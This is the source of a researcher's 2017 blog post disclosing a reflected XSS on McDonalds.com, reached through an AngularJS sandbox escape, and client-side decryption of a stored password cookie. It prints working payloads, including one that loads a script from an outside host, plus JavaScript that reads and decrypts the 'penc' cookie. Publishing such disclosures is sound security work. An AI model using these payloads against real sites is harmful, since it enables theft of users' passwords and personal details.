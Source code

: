 ```yaml
---
title: Stealing passwords from McDonald's users
subtitle: Reflected XSS through AngularJS sandbox bypass causes password exposure of McDonald users
description: By abusing an insecure cryptographic storage vulnerability and a reflected server cross-site-scripting vulnerability it is possible to steal and decrypt the password from a McDonald's user.
date: 2017-01-06 00:31:42
---
```


By abusing an insecure cryptographic storage vulnerability ({% customlink "https://www.owasp.org/index.php/Top_10_2007-Insecure_Cryptographic_Storage" %}) and a reflected server cross-site-scripting vulnerability ({% customlink "https://www.owasp.org/index.php/Top_10_2013-A3-Cross-Site_Scripting_(XSS)" %}) it is possible to steal and decrypt the password from a McDonald's user. Besides that, other personal details like the user's name, address & contact details can be stolen too.

### Proof of Concept

#### Reflected XSS through AngularJS sandbox escape
McDonalds.com contains a search page which reflects the value of the search parameter (`q`) in the source of the page. So when we search on for example `***********-test-reflected-test-***********`, the response will look like this:

{% raw %}
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-1" "search-value-test-preview.png" "Text on website" %}{% raw %}
		{% endraw %}{% customlightbox "step-1" "search-value-test-reflected.png" "Text in HTML" %}{% raw %}
	</div>
</div>
{% endraw %}

McDonald's uses AngularJS so we can try to print the unique scope ID using the search value. We can do this by changing the `q` parameter value to `{% raw %}{{$id}}{% endraw %}`. As we can see `{% raw %}{{$id}}{% endraw %}` gets converted to `9` the unique ID (monotonically increasing) of the AngularJS scope.

{% raw %}
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-2" "search-value-angular-id-preview.png" "Unique ID on website" %}{% raw %}
		{% endraw %}{% customlightbox "step-2" "search-value-angular-id-reflected.png" "Unique ID in HTML" %}{% raw %}
	</div>
</div>
{% endraw %}

Using `{% raw %}{{alert(1)}}{% endraw %}` as value wouldn't work because all AngularJS code is executed in a sandbox. However, the AngularJS sandbox isn't really safe. In fact, it shouldn't be trusted at all. It even got removed in version 1.6 ({% customlink "https://docs.angularjs.org/guide/security#sandbox-removal" %}) because it gave a false sense of security. PortSwigger created a nice blog post about escaping the AngularJS sandbox ({% customlink "http://blog.portswigger.net/2016/01/xss-without-html-client-side-template.html" %}).

We first need to find the AngularJS version of McDonalds.com. We can do this by executing `angular.version` in the console.

{% raw %}
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-3" "angular-version.png" "Angular version" %}{% raw %}
	</div>
</div>
{% endraw %}

The version is 1.5.3, so the sandbox escape we need is `{% raw %}{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=alert(1)');}}{% endraw %}`. We can use this sandbox escape as search value, which results in an alert.

{% raw %}
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-4" "alert-1-in-chrome.png" "Alert using AngularJS sandbox escape" %}{% raw %}
	</div>
</div>
{% endraw %}

We can even load external JavaScript files using the following sandbox escape, which results in the alert below.

{% raw %}{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=$.getScript(`https://finnwea.com/snippets/external-alert.js`)');}}{% endraw %}

The JavaScript can be loaded from another domain since McDonald's doesn't exclude it using the `Content-Security-Policy` header.

{% raw %}
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-5" "alert-external-in-chrome.png" "External domain alert using AngularJS sandbox escape" %}{% raw %}
	</div>
</div>
{% endraw %}

### Proof of Concept

#### Stealing the user's password
Another thing I noticed on McDonalds.com was their sign in page which contained a very special checkbox. Normally you can check "Remember me" when signing in, but the McDonald's sign in page gives us the option to remember the password.

{% raw %}
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-6" "mcdonalds-login-form.png" "Remember my password checkbox" %}{% raw %}
	</div>
</div>
{% endraw %}

I searched through all the JavaScript for the keyword `password` and I found some interesting code that decrypts the password.

{% raw %}
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-7" "source-search-password.png" "Source code search for `password`" %}{% raw %}
		{% endraw %}{% customlightbox "step-7" "cookie-pass-decrypt-source.png" "Source for decrypting the user's password" %}{% raw %}
	</div>
</div>
{% endraw %}

If there's one thing you shouldn't do, it's decrypting passwords client side (or even storing passwords using two-way encryption). I tried to run the code myself, and it worked!

{% raw %}
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-8" "decrypt-get-cookie-penc.png" "Decrypting my password using the console" %}{% raw %}
	</div>
</div>
{% endraw %}

The `penc` value is a cookie that is stored for a year. LOL!

{% raw %}
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-9" "penc-cookie.png" "The `penc` cookie that is stored for a year" %}{% raw %}
	</div>
</div>
{% endraw %}

McDonald's uses CryptoJS to encrypt and decrypt sensitive data. They use the same `key` and `iv` for every user, which means I only have to steal the `penc` cookie to decrypt someone's password.

{% raw %}
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-10" "encrypt-decrypt-source.png" "Encrypting and decrypting sensitive data using CryptoJS" %}{% raw %}
	</div>
</div>
{% endraw %}

I tried decrypting my password on the search page using a malicious search payload, but it didn't work. Since the AngularJS sandbox escape payload replaces the `charAt` method with the `join` method, the `getCookie` method failed. The `getCookie` method tries to trim whitespaces from cookie values by checking if `charAt(0)` is a whitespace. In the images below you can see `.charAt(0)` returns a string joined by `0` if executed on the search page.

{% raw %}
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-11" "char-at-fail.png" "The `charAt` method on the search page (fails)" %}{% raw %}
		{% endraw %}{% customlightbox "step-11" "char-at-success.png" "The `charAt` method on the homepage (success)`" %}{% raw %}
	</div>
</div>
{% endraw %}

I wrote some JavaScript that loads the homepage in an iframe and steals the cookie using that iframe. Since the payload is executed multiple times because of the sandbox escape, I keep track of the variable `xssIsExecuted`, so that the payload is only executed once.

{% highlightcode javascript %}
	if (!window.xssIsExecuted) {
	    window.xssIsExecuted = true;

	    var iframe = $('<iframe src="https://www.mcdonalds.com/us/en-us.html"></iframe>');
	    $('body').append(iframe);

	    iframe.on('load', function() {
	        var penc = iframe[0].contentWindow.getCookie('penc');
	        alert(iframe[0].contentWindow.decrypt(penc));
	    });
	}
{% endhighlightcode %}

We can now use the following sandbox escape, which results in my password in an alert box!

{% raw %}{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=$.getScript(`https://finnwea.com/snippets/mcdonalds-password-stealer.js`)');}}{% endraw %}

{% raw %}
<p></p>
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-12" "alert-my-password.png" "My password!" %}{% raw %}
	</div>
</div>
{% endraw %}

That was all pretty easy. I tried to contact McDonald's multiple times to report the issue, but unfortunately they didn't respond, which is why I decided to disclose the vulnerability.
